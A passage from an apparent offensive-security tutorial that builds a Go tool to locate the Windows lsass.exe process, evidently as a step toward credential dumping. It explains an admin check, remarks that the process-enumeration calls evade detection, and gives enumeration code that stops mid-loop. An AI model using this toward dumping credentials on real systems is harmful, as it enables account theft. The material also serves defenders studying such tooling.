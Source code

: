 This function uses **AllocateAndInitializeSid** API call to retrieve SIDs information and then it checks if the user is part of the Administrators group. If the user is an admin, it returns `true`, otherwise it returns `false`.

Let’s take a look about how to find `lsass.exe` PID. First of all we have to use some API calls like `CreateToolhelp32Snapshot` and `Process32Next`, I think that they are never detected as malicious or something like that because they just enumerate and list processes so we don’t have to do anything special.

However in this case we’ll be using a modified version of a function from [https://github.com/mitchellh/go-ps/blob/master/process_windows.go](https://github.com/mitchellh/go-ps/blob/master/process_windows.go)

```go
// Auxiliary function
func newWindowsProcess(e *windows.ProcessEntry32) (WindowsProcess) {
  end := 0
  for {
    if e.ExeFile[end] == 0 {
      break
    }
    end++
  }

  return WindowsProcess{
    ProcessID:       int(e.ProcessID),
    ParentProcessID: int(e.ParentProcessID),
    Exe:             syscall.UTF16ToString(e.ExeFile[:end]),
  }
}

func FindLsassPid() (int, error) {
  const TH32CS_SNAPPROCESS = 0x00000002

  handle, err := windows.CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0)
  if err != nil {
    return 0, err
  }
  defer windows.CloseHandle(handle)

  var entry windows.ProcessEntry32
  entry.Size = uint32(unsafe.Sizeof(entry))

  err = windows.Process32First(handle, &entry)
  if err != nil {
    return 0, err
  }

  results := make([]WindowsProcess, 0, 50)
  for {
    results = append(results, newWindowsProcess(&entry))

    err = windows.Process32Next(handle, &entry)
    if err != nil {
      // Check if there aren't more processes
      if err == syscall.ERROR_NO_MORE_FILES {
        break
      }

      return 0, err
    }
  }

  // Iterate over all processes
  for _, proc := range results {
```
